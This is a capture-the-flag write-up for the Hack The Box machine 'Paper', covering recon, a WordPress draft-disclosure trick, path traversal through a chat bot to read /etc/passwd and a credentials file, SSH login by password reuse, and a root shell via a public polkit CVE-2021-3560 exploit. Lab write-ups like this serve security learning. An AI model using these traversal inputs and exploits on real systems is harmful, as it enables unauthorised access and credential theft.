





# paper: 10.10.11.143

## Hints

- Try find a name that points to another site - use your head
- To get a foothold try channeling your inner robot and traversing a new path
- For privesc, if the enumeration tool is working you will have an easy POC

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

## 80/443: Recon

Having a look at port 80, there is a default landing page.



Port 443 has the same landing page. There is a reference to CentOS - so guessing that this a default landing page when installing some type of webserver on CentOS. The first thing that comes to my mind is that, I am pretty sure, CentOS is no longer maintained.

Looking at the SSL certificate for the HTTPS port, there is not much, but there is a Common Name of `localhost.localdomain` and an email of `root@localhost.localdomain` - but nothing came from this (adding to hosts file). While doing some poking around, started looking at the services more in-depth.

```
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
```

Nothing interesting here either. All the versions are pretty new, and no major vulnerabilities that would help get a foothold. From here, tried a bunch of the usual stuff:

- Reviewed source code for default landing page
- Reviewed HTTPS SSL certificate
- Attempted to find hidden directories/files using `gobuster`

Not going to lie - I had to look up a tutorial for some help on the initial foothold. Kind of sucks when it is an easy machine! Anyway, turns out that the HTTP response headers had a `X-Backend-Server` header with the value `office.paper`.

```none
└─$ curl -v -k -i -L 10.10.11.143 -o /dev/null 
> GET / HTTP/1.1
> Host: 10.10.11.143
> User-Agent: curl/8.2.1
> Accept: */*
> 
< HTTP/1.1 403 Forbidden
< Date: Fri, 20 Oct 2023 01:40:35 GMT
< Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
< X-Backend-Server: office.paper
< Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
< ETag: "30c0b-5c5c7fdeec240"
< Accept-Ranges: bytes
< Content-Length: 199691
< Content-Type: text/html; charset=UTF-8
```

I was mainly poking at the HTTPS version (443), and had reviewed the headers and intercepted with Burp... but had not done the same for the HTTP version! Guess this is a takeaway to remember to enumerate both ports. Anyway, after adding the name to my `/etc/hosts` file, we got a WordPress site. This might be fun!



I don't know much about the TV show "The Office" apart from that it has something to do with Dunder Mufflin and was set in Scranton, PA.

> The best paper company in the electric-city Scranton!

Looking at the page source, there are some references to WordPress version 5.2.3. There are some posts from "Prisionmike" - could be a username for the admin panel. I ran a scan using WPScan (`wpscan --url office.paper`), but didn't find anything that interesting in terms of exploits. But we did get a confirmation of WordPress version 5.2.3. Looking at Exploit DB - there were a few exploits that targeting 5.2.3 and below, but it was hard to pick one out of the list, on an easy machine this usually indicates that I needed to find some more information to help pick an exploit. Then, I found a good hint.



Now we can look through the exploits again with more guidance. There is a exploit with the following name: `WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts`. This seems very similar to the comments left. Also... this is a crazy exploit! Just add `?static=1` to the WordPress URL and you can see drafts! From here, I reviewed the draft posts and, amongst the jokes, there was a link to a chat application for registrations.

```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

This URL appears to be a registration link - so it makes sense to make a new account.



There was some information in the "General" channel about a bot called `recyclops` which provided a variety of functionality. The more interesting functionality was that it could list the contents of a specific directory and cat files. However, the General channel was not set to read-only. This was easy to work around:

- Create a new channel, name it whatever
- Add the `recyclops` user

Now you should be able to run `recyclops` commands.



This was really fun to mess with, and I attempted a variety of injection attacks, and path traversal attacks.

```
recyclops list sales
recyclops list .
recyclops file ../../../etc/passwd
```

I spent quite a lot of time poking around the files - mainly because navigating the file system and viewing files was so slow using the bot. Anyway, I discovered credentials in an `.env` file for the bot.

```
recyclops file ../hubot/.env
```

Took a guess that there might be password reuse going on... and we knew the user running the bot was `dwight` (from the file ownership in the listing output). And we got an SSH connection to the machine, and the user flag - which was in the home directory.

```
└─$ ssh dwight@10.10.11.143
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ whoami
dwight
```

## Privesc: `dwight` to `root`

As usual, uploaded a copy of linpeas to the target machine and ran the tool.

```
scp linpeas.sh dwight@10.10.11.143:/home/dwight/linpeas.sh
```

Before getting into the privesc... this box ended up being a lot harder for myself than an easy box would (should?) usually be. The main problem was that linpeas could not detect the intended vulnerability: [Does linpeas still detect CVE-2021-3560](https://github.com/carlospolop/PEASS-ng/issues/339). The linked GitHub issue has a good write up from various users, but the main problem is this snippet of code:

```
if [ "$(yum list installed 2>/dev/null | grep polkit | grep -c 0.117-2)" ]; then
    echo "Vulnerable to CVE-2021-3560" | sed -${E} "s,.*,${SED_RED_YELLOW},"
    echo ""
fi
```

The logic for polkit version/installation detection was changed in [this commit](https://github.com/carlospolop/PEASS-ng/commit/999fcff#diff-cad42c2f247c61d335fb083664e3b8b1387d27f3942c42dc83274a46ebbda812L33-L38). As you can see from the diff - linpeas used to use `rpm -qa` and was switched to `yum list installed`. Looks like the Paper machine installed the RPM manually, which resulted in no package listed by the yum package manager. This makes privesc on the box much harder than a easy rating... from looking at linpeas output and seeing a vulnerable `sudo` version to having to manually poke the machine looking for potential issues. Needless to say, I went down a massive rabbit hole before seeking guidance:

- Attempted to enumerate Mongo DB for users and tried cracking hashes
- Attempted to leverage RocketChat service
- Attempted to leverage cronjobs
- Attempted to pivot to rocketchat user
- Tried a number of other [Linux PrivEsc Tools](https://ed4m4s.blog/privilege-escalation/linux/linprivesc)
- Tried a number of CVEs for local privesc

After a few hours of headscratching... I had a look at some notes from other users and found the problem. After knowing that CVE-2021-3560 was the thing, the box was super easy. Did a Google and found the first exploit:

```
https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation
```

Downloaded the exploit script and uploaded it to the Paper machine. Had to run it a couple of times for the timing attack to work.

```
[dwight@paper ~]$ ./poc.sh -u=test -p=test -f=y

[!] Username set as : test
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag '-f=y' specified.
[!] Vulnerability checking is DISABLED!
[!] Starting exploit...
[!] Inserting Username test...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username test  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - test
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper ~]$ su - test
Password:
[test@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for test: 
[root@paper test]#
```

Root flag obtained!

## Lessons Learned

- Enumerate both HTTP and HTTPS versions of a site, even when they appear the same
- Don't always rely on tools being accurate, and don't forget your manual enumeration methods to accompany tools

## Useful Resources

- [HTB: Paper by 0xdf](https://0xdf.gitlab.io/2022/06/18/htb-paper.html)
